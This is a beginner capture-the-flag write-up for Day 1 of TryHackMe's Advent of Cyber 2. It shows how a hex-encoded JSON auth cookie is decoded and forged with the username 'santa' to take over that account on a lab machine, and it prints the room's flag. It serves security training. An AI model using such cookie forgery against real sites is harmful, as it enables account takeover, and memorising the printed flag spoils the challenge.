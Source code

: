 ```yaml
---
title: TryHackMe Writeup - Advent of Cyber 2
date: 2021-01-05 14:45:47 +07:00
tags: [tryhackme]
description: Tryhackme write-up
comments: true
---
```

*note: i'll update ASAP*

# [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2)
---
Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## [Task 1] Introduction
---

## [Task 2] Our Socials
---

## [Task 3] Short Tutorial & Rules
---

## [Task 4] Subscribing
---

## [Task 5] The Story
---

## [Task 6] [Day1] Web Exploitation: A Christmas Crisis
---

Start the machine by clicking "Deploy" green button.
<figure>
<center><a href="1.png"><img src="1.png" /></a></center>
<figcaption>Deploy the machine.</figcaption>
</figure>

Ping the machine' IP Address first to see if the machine already up.
```bash
kali@kali:~$ ping 10.10.182.59
PING 10.10.182.59 (10.10.182.59) 56(84) bytes of data.
64 bytes from 10.10.182.59: icmp_seq=64 ttl=63 time=195 ms
64 bytes from 10.10.182.59: icmp_seq=65 ttl=63 time=250 ms
64 bytes from 10.10.182.59: icmp_seq=66 ttl=63 time=225 ms
64 bytes from 10.10.182.59: icmp_seq=67 ttl=63 time=261 ms
64 bytes from 10.10.182.59: icmp_seq=68 ttl=63 time=215 ms
64 bytes from 10.10.182.59: icmp_seq=69 ttl=63 time=212 ms
```

If the machine already up, go to the machine's IP Address in port 80 on the Browser.
<figure>
<center><a href="2.png"><img src="2.png" /></a></center>
<figcaption>The website.</figcaption>
</figure>

If the website up, register for an account and then login to that account. Inspect the cookie used for authentication via Cookie Editor Extension. The cookie's name is **auth**.
<figure>
<center><a href="3.png"><img src="3.png" /></a></center>
<figcaption>Inspecting cookie used.</figcaption>
</figure>

We can see the format from the value of this cookie is **hexadecimal**.
<figure>
<center><a href="4.png"><img src="4.png" /></a></center>
<figcaption>Hexadecimal format.</figcaption>
</figure>

If we decoded the cookie's value, the decoded data are shown below with **json** format.
```bash
kali@kali:~$ echo "7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226161616161227d" | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
{"company":"The Best Festival Company", "username":"aaaaa"}
```

We can login to user `Santa` by changing the value of the username and encode it to hexadecimal. So, the Santa's cookie is shown below.
```bash
kali@kali:~$ python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
{"company":"The Best Festival Company", "username":"aaaaa"}
>>> a = '{"company":"The Best Festival Company", "username":"Santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2253616e7461227d'
# ^ is Santa's cookie.
```

Change our cookie to user `santa` with lowercased `s` and encoded it to hexadecimal.
```bash
>>> a = '{"company":"The Best Festival Company", "username":"santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d'
```

Now, change our cookie on the Browser.
<figure>
<center><a href="5.png"><img src="5.png" /></a></center>
<figcaption>Change cookie to user "santa".</figcaption>
</figure>

Activate all the control and we got the flag!
<figure>
<center><a href="6.png"><img src="6.png" /></a></center>
<figcaption>Flag!</figcaption>
</figure>

The flag is **THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}**.





